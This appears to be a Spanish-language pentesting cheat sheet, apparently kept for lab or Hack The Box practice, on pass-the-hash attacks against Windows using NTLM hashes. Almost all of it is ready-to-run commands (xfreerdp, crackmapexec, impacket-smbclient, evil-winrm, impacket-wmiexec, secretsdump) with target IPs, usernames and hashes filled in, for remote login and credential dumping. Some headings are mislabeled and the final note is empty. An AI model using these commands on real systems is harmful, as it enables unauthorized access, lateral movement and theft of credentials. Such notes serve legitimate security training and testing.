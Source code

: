 ## DESCRIPTION

Diferentes herramienta para pasar el hash (NTLM).
Se puede conseguir con mimikatz, secretdump, de la SAM o de la NTDS.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: RDP

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:celia.almeda /pth:e728ecbadfb02f51ce8eed753f3ff3fd /v:10.10.94.142 /d:test.exam
```

### OPTION 1: SMB

```
crackmapexec winrm 10.10.94.142 -u "celia.almeda" -H "e728ecbadfb02f51ce8eed753f3ff3fd" 
```

Se puede comprobar también WINRM desde aquí

```
impacket-smbclient test.exam/celia.almeda@10.10.94.140 -hashes ':e728ecbadfb02f51ce8eed753f3ff3fd'
```

### OPTION 1: WINRM

```
evil-winrm -i 10.10.94.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd 
```

### OPTION 1: WMI

```
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.206.72 
```
### OPTION 1: SECRETDUMP

```
secretsdump.py  'EXTERNAL/Administrator@192.168.166.248' -hashes 'aad3b435b51404eeaad3b435b51404ee:56e4633688c0fdd57c610faf9d7ab8df'
```



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 